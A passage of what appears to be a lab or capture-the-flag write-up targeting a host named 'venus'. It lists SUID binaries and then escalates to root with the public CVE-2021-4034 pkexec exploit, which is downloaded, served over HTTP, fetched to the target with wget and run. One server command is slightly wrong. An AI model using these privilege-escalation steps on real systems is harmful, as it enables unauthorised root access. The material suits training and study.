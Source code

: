 ```
<img width="872" height="328" alt="image" src="https://github.com/user-attachments/assets/4ec146d2-f33a-4343-8c10-bdcd48560330" />

Search for files with the SUID (Set User ID) permission across the entire filesystem : 
<br>
```find / -perm -u=s -type f 2>/dev/null```


SUID binaries can be privilege escalation . Misconfigured or outdated binaries (like /usr/lib/polkit-1/polkit-agent-helper-1 ) can be exploited to gain root privileges.
<br>
<img width="1125" height="746" alt="image" src="https://github.com/user-attachments/assets/386282e1-172f-4520-9a91-94870e2593bf" />

<br>


**7. Actions on Objectives**

Exploiting CVE-2021-4034 (Polkit pkexec) :
<br>
Download - https://codeload.github.com/berdav/CVE-2021-4034/zip/main
<br>
In the device that downloaded the file, start a webserver for file transfer : 
<br>
``` python3 -m http-server 8080```
<br>
<img width="1125" height="147" alt="image" src="https://github.com/user-attachments/assets/6f0e6e2e-da81-45ff-813a-0a700ea0ea09" />

<br>
In the venus, download the file (via ssh):
<br>

```wget http://<IP address>:8080/CVE-2021-4034-main.zip```

<br>
<img width="1125" height="255" alt="image" src="https://github.com/user-attachments/assets/103352aa-13e7-4c70-a70d-77fcf1c199f5" />
<br>
Unzip the file :  

```unzip CVE-2021-4034-main.zip```

<br>
<img width="1125" height="531" alt="image" src="https://github.com/user-attachments/assets/63ea08e6-c314-40b6-8940-54601561a9c2" />
<br>
Change directory : 

```cd CVE-2021-4034-main```

<br>
<img width="1125" height="91" alt="image" src="https://github.com/user-attachments/assets/0ea19e5c-27af-481e-b957-6676f2604891" />
<br>
Run the shell script : 

```./cve-2021-4034.sh```

<br>
<img width="1125" height="253" alt="image" src="https://github.com/user-attachments/assets/0e873dcf-bd24-43aa-aa70-36d89e80537c" />
<br>
```